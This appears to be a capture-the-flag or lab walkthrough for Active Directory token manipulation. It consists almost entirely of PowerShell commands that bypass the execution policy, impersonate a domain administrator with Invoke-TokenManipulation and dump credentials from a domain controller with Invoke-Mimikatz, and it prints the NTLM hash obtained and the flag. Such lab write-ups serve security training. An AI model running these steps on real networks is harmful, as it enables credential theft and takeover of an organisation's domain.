 # AD - Token Manipulation

##### The C:\Tools folder that contains the necessary tools
```
cd C:\Tools
powershell -ep bypass 
. .\PowerView.ps1
```

##### Find domain-related information.
```
Get-Domain
```

##### Enumerate the available tokens using the Invoke-TokenManipulation.
```
cd C:\Tools
powershell -ep bypass 
. .\Invoke-TokenManipulation.ps1

Invoke-TokenManipulation -Enumerate
```

##### Create a new PowerShell process running as research\administrator.
```
Invoke-TokenManipulation –CreateProcess “c:\windows\system32\windowspowershell\v1.0\powershell.exe” –Username “research\administrator”
```

##### Use mimikatz to get the details of all users logged in to the Domain controller
```
cd C:\Tools
powershell -ep bypass 
. .\Invoke-Mimikatz.ps1

Invoke-Mimikatz -Computername prod.research.security.local 
```

NTLM hash of the Domain administrator: **84398159ce4d01cfe10cf34d5dae3909**


##### Access the Domain Controller and retrieve the flag
```
Enter-PSSession prod.research.SECURITY.local

Get-Content -Path "C:\flag.txt"
```
**FLAG: 5f140e8052d38d6d2a8f887eec284f09**
